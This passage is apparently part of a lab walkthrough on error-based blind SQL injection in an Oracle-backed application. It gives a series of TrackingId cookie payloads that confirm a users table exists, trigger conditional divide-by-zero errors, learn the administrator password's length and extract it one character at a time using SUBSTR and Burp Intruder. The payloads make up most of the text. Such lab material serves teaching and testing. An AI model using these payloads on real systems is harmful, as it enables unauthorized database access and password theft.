 As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query:
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'```
As this query does not return an error, you can infer that this table does exist. Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation.

You can also exploit this behavior to test conditions. First, submit the following query:
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'```
Verify that an error message is received.

Now change it to:
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'```
Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```
Verify that the condition is true (the error is received), confirming that there is a user called administrator.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'```
This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```
Then send:
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```
And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
Go to Burp Intruder and change the value of the cookie to:
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```
This uses the SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
